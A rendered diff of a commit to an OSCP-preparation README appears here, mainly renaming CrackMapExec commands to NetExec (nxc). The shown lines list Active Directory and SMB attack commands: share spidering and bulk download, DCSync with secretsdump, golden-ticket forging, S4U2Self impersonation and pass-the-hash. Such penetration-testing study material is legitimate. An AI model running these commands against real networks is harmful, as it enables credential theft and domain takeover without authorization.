

Before and after one commit to anshu19981/Oscp, a Markdown page: README.md, 3 parts joined by grey strips. Rendered like a GitHub page.

````diff
--- a/README.md
+++ b/README.md
@@ -185,15 +185,15 @@ ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt \
 # Unauthenticated checks:
 smbclient -L //<TARGET_IP> -N
 smbmap -H <TARGET_IP> -u '' -p ''
-crackmapexec smb <TARGET_IP> -u '' -p '' --shares
-crackmapexec smb <TARGET_IP> -u 'guest' -p '' --shares
+nxc smb <TARGET_IP> -u '' -p '' --shares
+nxc smb <TARGET_IP> -u 'guest' -p '' --shares
 
 # Vulnerability scan:
 nmap --script smb-vuln* -p 445 <TARGET_IP>
 nmap --script smb-vuln-ms17-010 -p 445 <TARGET_IP>
 
 # Authenticated enumeration:
-crackmapexec smb <TARGET_IP> -u user -p pass --shares --users --groups --pass-pol
+nxc smb <TARGET_IP> -u user -p pass --shares --users --groups --pass-pol
 smbmap -H <TARGET_IP> -u user -p pass -R           # Recursive listing
 smbclient //<TARGET_IP>/share -U 'user%pass'
 
@@ -201,7 +201,7 @@ smbclient //<TARGET_IP>/share -U 'user%pass'
 smbclient //<TARGET_IP>/SHARE -U 'user%pass' -c 'recurse ON; prompt OFF; mget *'
 
 # Spider shares for juicy files:
-crackmapexec smb <TARGET_IP> -u user -p pass -M spider_plus
+nxc smb <TARGET_IP> -u user -p pass -M spider_plus
 ```
 
 ### SNMP Enumeration
@@ -804,10 +804,10 @@ bloodhound-python -u stephanie -p 'Password123' \
 .\SharpHound.exe -c All --domain corp.local --zipfilename bh.zip
 # Transfer ZIP to attacker → import
 
-# ── CME Domain Recon ────────────────────────────────────────
-crackmapexec smb 192.168.x.100 -u stephanie -p 'Password123' \
+# ── nxc Domain Recon ────────────────────────────────────────
+nxc smb 192.168.x.100 -u stephanie -p 'Password123' \
     --shares --users --groups --pass-pol
-netexec smb 192.168.x.100 -u stephanie -p 'Password123' \
+nxc smb 192.168.x.100 -u stephanie -p 'Password123' \
     --users --rid-brute
 
 # ── LDAP Enumeration ────────────────────────────────────────
@@ -2068,7 +2006,7 @@ GetNPUsers.py dom/user:pass -dc-ip <DC_IP> -request        # AS-REP
 secretsdump.py dom/user:pass@<DC_IP> -just-dc              # DCSync
 lookupsid.py dom/user:pass@<TARGET_IP>                     # SID enum
 addcomputer.py dom/user:pass -computer-name FAKE$          # add computer
-getST.py -spn cifs/<TARGET_FQDN> -impersonate Admin dom/user:pass  # S4U2Self
+getST.py -spn cifs/<TARGET_FQDN> -impersonate Admin dom/user:pass -dc-ip <DC_IP>  # S4U2Self
 ticketer.py -nthash <KRBTGT_HASH> -domain-sid <SID> -domain dom Admin  # Golden
 
 # MSSQL:
@@ -2076,11 +2014,10 @@ mssqlclient.py dom/user:pass@<TARGET_IP> -windows-auth
 mssqlclient.py sa@<TARGET_IP>
 ```
 
-### netexec / CME Cheatsheet
-
-```bash
-# Note: netexec (nxc) = new name for CrackMapExec (cme)
-# Both work — nxc is actively maintained
+### nxc (NetExec) Cheatsheet
+
+```bash
+# nxc (NetExec) — actively maintained, use nxc for all commands
 
 nxc smb <TARGET_IP> -u user -p pass                          # Test creds
 nxc smb <TARGET_IP> -u user -H <NTLM_HASH>                  # PTH
````
Also changed, not shown: other parts of README.md (+32 -94 lines).
